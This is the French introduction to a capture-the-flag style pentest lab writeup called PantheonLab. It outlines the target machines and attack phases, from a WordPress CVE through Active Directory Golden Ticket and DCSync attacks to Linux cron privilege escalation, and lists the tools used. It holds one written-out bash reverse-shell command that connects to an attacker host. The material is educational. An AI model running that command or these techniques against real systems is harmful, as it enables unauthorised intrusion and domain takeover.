 # Introduction au Writeup

!!! danger "⚠️ Avertissement - Copier n'est pas apprendre"
    **Ce writeup est fourni à des fins éducatives uniquement !**
    
    🎯 **Recommandation forte** : Essayez d'abord de résoudre le lab par vous-même avant de consulter cette solution.
    
    📚 **Pourquoi ?** 
    - Les **vraies compétences** se développent en cherchant, en échouant, et en recommençant
    - Copier-coller ne vous apprendra **rien de durable**
    - La **satisfaction** de résoudre un défi par soi-même est incomparable
    - En cybersécurité, **l'adaptabilité** est plus importante que la mémorisation
    
    🏆 **Rappelez-vous** : Il n'y a aucune récompense à la fin de ce lab, si ce n'est les **compétences et connaissances** que vous aurez acquises. Autant que ce soit par votre propre effort !
    
    💡 **Utilisez ce writeup comme** :
    - Une **validation** de votre approche après avoir trouvé
    - Une **aide** quand vous êtes vraiment bloqué (évitez cette page car elle résume beaucoup de choses simultanément.)
    - Une **source d'apprentissage** pour comprendre les techniques

## 🎯 Objectif du Lab

Ce writeup détaille la résolution complète du lab PantheonLab, un environnement de pentest inspiré de la mythologie grecque. L'objectif est de démontrer une méthodologie complète d'audit de sécurité, de l'énumération initiale jusqu'à l'obtention des privilèges administrateur sur toutes les machines.

## 🏛️ Contexte du Scénario

Dans l'univers de PantheonLab, les dieux de l'Olympe ont décidé de mettre en place des jeux afin de permettre à un mortel de se hisser au-dessus des autres et de les rejoindre au Panthéon. Cependant, un dieu, Hermès, s'agace dans l'ombre de n'être que le messager. Il a introduit des vulnérabilités pour s'approcher discrètement des dieux — des vulnérabilités que vous devrez identifier et exploiter, vous devrez ensuite vous débrouiller afin de compromettre entièrement cet environnement.

### Machines Cibles

| Machine | IP | Rôle |
|---------|----|------|
| **Olympe** | 192.168.56.10 | Serveur Linux/WordPress |
| **DC01** | 192.168.56.11 | Contrôleur de domaine  |
| **Enfers** | 192.168.56.12 | Serveur membre |

## 🔍 Méthodologie d'Attaque

### Phase 1 : Reconnaissance
- **Énumération réseau** : Découverte des machines et services
- **Énumération web** : Analyse du site WordPress
- **Recherche de vulnérabilités** : Identification des vecteurs d'attaque

### Phase 2 : Exploitation Initiale
- **Exploitation WordPress** : Exploitation de CVE
- **Obtenir un shell** : Accès initial sur Olympe
- **Élévation de privilèges** : Accès à utilisateur hermes

### Phase 3 : Lateral Movement
- **Énumération Active Directory** : Découverte du domaine
- **Exploitation des credentials** : Utilisation des comptes trouvés
- **Accès aux machines Windows** : Pivot vers DC01 

### Phase 4 : Compromision du domaine
- **Escalade de privilèges** : Obtenir l'accès administrateur
- **Accès aux machines Windows** : Pivot vers ENFERS 
- **Golden Ticket** : Contrôle total du domaine
- **DCSync** : Extraction des hashes du domaine

### Phase 5 : Escalade de privilège linux
- **Password Reused** : Connexion en tant que hera sur la machine linux
- **Exploitation** : Insecure cron jobs
- **Escalade de privilèges** : Obtenir l'accès root

## 🛠️ Outils Utilisés

### Énumération
```bash
# Réseau
nmap 
netexec||nxc

# Web
wpscan 
gobuster

# Active Directory
netexec||nxc
rusthound
bloodhound
```

### Exploitation
```bash
# WordPress
CVE-2025-32118.py

# Reverse Shell
bash -c 'bash -i >& /dev/tcp/192.168.56.1/9001 0>&1'

# Active Directory
mimikatz.exe
rubeus.exe
SharpSuccessor.exe
GMSAPasswordReader.exe
```

## 📊 Progression Attendue

### Niveau 1 : Accès Initial
- [x] Énumération du réseau
- [x] Découverte du site WordPress
- [x] Identification de la vulnérabilité CMP Coming Soon
- [x] Exploitation et obtention d'un shell

### Niveau 2 : Élévation de Privilèges
- [x] Accès utilisateur hermes
- [x] Découverte des credentials SMB
- [x] Accès au domaine Active Directory

### Niveau 3 : Lateral Movement
- [x] Énumération complète du domaine
- [x] Découverte des utilisateurs et groupes
- [x] Exploitation des vulnérabilités Kerberos

### Niveau 4 : Contrôle Total
- [x] Escalade vers administrateur
- [x] Création de Golden Ticket
- [x] DCSync du domaine
- [x] Privesc Linux


## ⚠️ Avertissements Importants

!!! warning "Environnement Contrôlé"
    Ce lab est conçu pour l'apprentissage dans un environnement isolé. Ne jamais tester ces techniques sur des systèmes de production sans autorisation.

!!! info "Légalité"
    L'utilisation de ces techniques doit toujours respecter les lois locales et les autorisations appropriées.

!!! tip "Bonnes Pratiques"
    Documentez chaque étape, prenez des captures d'écran, et comprenez le "pourquoi" derrière chaque technique.

## 🎯 Objectifs d'Apprentissage

### Compétences Techniques
- **Énumération web avancée** : WordPress, plugins, vulnérabilités
- **Exploitation Active Directory** : Kerberos, DCSync, Golden Ticket
- **Lateral movement** : Pivot entre machines
- **Privilege escalation** : Windows et Linux

### Compétences Méthodologiques
- **Approche structurée** : Méthodologie de pentest
- **Documentation** : Writeup professionnel
- **Résolution de problèmes** : Debugging et troubleshooting
- **Pensée critique** : Analyse des vulnérabilités

## 📚 Ressources Complémentaires

### Documentation Technique
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [HackTricks Active Directory](https://book.hacktricks.xyz/pentesting/pentesting-active-directory)
- [BloodHound Documentation](https://bloodhound.readthedocs.io/)
- [The Hacker Recipes](https://www.thehacker.recipes/)
- [The Hacker Recipes](https://www.thehacker.recipes/)
- [akamai/Badsuccessor](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)


---

*Que la sagesse d'Athéna vous guide  !* ⚡🏛️ 
